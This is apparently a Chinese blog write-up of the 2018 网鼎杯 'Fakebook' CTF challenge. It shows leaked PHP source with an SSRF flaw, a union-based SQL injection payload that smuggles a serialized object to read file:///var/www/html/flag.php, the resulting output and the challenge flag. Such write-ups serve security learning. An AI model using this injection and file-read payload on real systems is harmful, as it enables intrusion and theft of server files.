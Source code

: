 ```yaml
---
title: buuoj刷题记录5
date: 2019-12-30 16:19:44
tags:
 - 网鼎杯2018
 - buuctf
 - web
---
```


## [网鼎杯 2018]Fakebook

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

<!--more-->

### 0x01 分析

访问`robots.txt`，给了一个提示

```
User-agent: *
Disallow: /user.php.bak
```

拿到`user.php`的源码

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();   //初始化链接

        curl_setopt($ch, CURLOPT_URL, $url);     //设置CURLOPT_URL
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);   //将curl_exec()获取的信息以文件流的形式返回,而不是直接输出
        $output = curl_exec($ch);      /执行CURL会话;此处存在ssrf
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);  //获取博客地址
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);  //博客地址有过滤
    }

}
```

访问`flag.php`，显示返回是200。那么应该是要将`./flag.php`写入博客地址，让程序加载。

在加入一个用户时的`username`存在post注入，加入完成，进入到`view.php`发现也存在注入

### 0x02 开始操作

使用sqlmap跑了一遍post注入，发现数据库中存的是序列化后结果，应该存在序列化漏洞。

![](/pic/4.png)
```
payload=view.php?no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3{s:4:"name";s:4:"and";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

执行结果

![](/pic/5.png)

查看源码

```html
<!doctype html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>User</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>
</head>
<body>
<div class="container">
    <table class="table">
        <tr>
            <th>
                username
            </th>
            <th>
                age
            </th>
            <th>
                blog
            </th>
        </tr>
        <tr>
            <td>
                2            </td>
            <td>
                12            </td>
            <td>
                file:///var/www/html/flag.php            </td>
        </tr>
    </table>

    <hr>
    <br><br><br><br><br>
    <p>the contents of his/her blog</p>
    <hr>
    <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s4MzUwNjViNi1iNjBkLTQ5ZGEtYTkyYi1kZDgwZDM4MDMyZGN9IjsNCmV4aXQoMCk7DQo='>
</div>
</body>
</html>
```

点击即可看见flag

```php
<?php

$flag = "flag{835065b6-b60d-49da-a92b-dd80d38032dc}";
exit(0);

```

